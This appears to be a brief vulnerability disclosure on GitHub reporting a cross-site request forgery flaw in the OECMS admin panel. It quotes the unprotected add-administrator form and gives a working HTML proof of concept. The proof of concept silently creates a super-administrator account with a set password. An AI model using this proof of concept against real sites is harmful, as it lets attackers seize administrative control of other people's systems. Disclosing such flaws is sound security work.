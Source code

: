 
# The latest version of OECMS, CSRF backstage admin



In the field that adds administrator operation in the background, the form does not have a authentication or token authentication mechanism, so there is a Cross-Site Request Forgery (Add Admin) to add the administrator.

``` html
<form name="myform" id="myform" method="post" action="admincp.php?c=admin" onsubmit='return checkform();' />
    <input type="hidden" name="a" value="saveadd" />
	<table cellpadding='3' cellspacing='3' class='tab'>
	  <tr>
		<td class='hback_1' width="15%">登录帐号：<span class='f_red'>*</span></td>
		<td class='hback' width="85%"><input type="text" name="adminname" id="adminname" class="input-150" /> <span class='f_red' id="dadminname"></span> <font color="#999999">4-16个字符，只能由中文、字母、数字和下横线组成</font></td>
	  </tr>
	  <tr>
		<td class='hback_1'>登录密码：<span class='f_red'>*</span></td>
		<td class='hback'><input type="password" name="password" id="password" class="input-100" /> <span class='f_red' id="dpassword"></span> <font color="#999999">4-16个字符</font></td>
	  </tr>
 	  <tr>
		<td class='hback_1'>确认密码：<span class='f_red'>*</span></td>
		<td class='hback'><input type="password" name="confirmpassword" id="confirmpassword" class="input-100" /> <span class='f_red' id="dconfirmpassword"></span> <font color="#999999">4-16个字符</font></td>
	  </tr>
	  <tr>
		<td class='hback_1'>帐号设置：<span class='f_red'></span></td>
		<td class='hback'><input type="radio" name="flag" value="1" checked />正常，<input type="radio" name="flag" value="0" />锁定，<input type="checkbox" name="super" value="1" checked />系统管理员</td>
	  </tr>
	  <tr>
		<td class='hback_1'>备注说明： </td>
		<td class='hback'><textarea name='memo' id='memo' style='width:50%;height:85px;overflow:auto;color:#444444;'></textarea></td>
	  </tr>
	  <tr>
		<td class='hback_none'></td>
		<td class='hback_none'><input type="submit" name="btn_save" class="button" value="添加保存" /></td>
	  </tr>
	</table>
	</form>
```
Then, we can build the following POC,
``` html
<html>
  <body>
    <form action="http://127.0.0.1/cms/upload/admincp.php" method="POST">
      <input type="hidden" name="c" value="admin" />
      <input type="hidden" name="a" value="saveadd" />
      <input type="hidden" name="adminname" value="admin22" />
      <input type="hidden" name="password" value="admin666" />
      <input type="hidden" name="confirmpassword" value="admin666" />
      <input type="hidden" name="flag" value="1" />
      <input type="hidden" name="super" value="1" />
      <input type="hidden" name="memo" value="a" />
      <input type="hidden" name="btn&#95;save" value="æ&#183;&#187;å&#138;&#160;ä&#191;&#157;å&#173;&#152;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Here's my own demonstration of the attack
![](https://github.com/LiodAir/images/blob/master/aaa.gif)
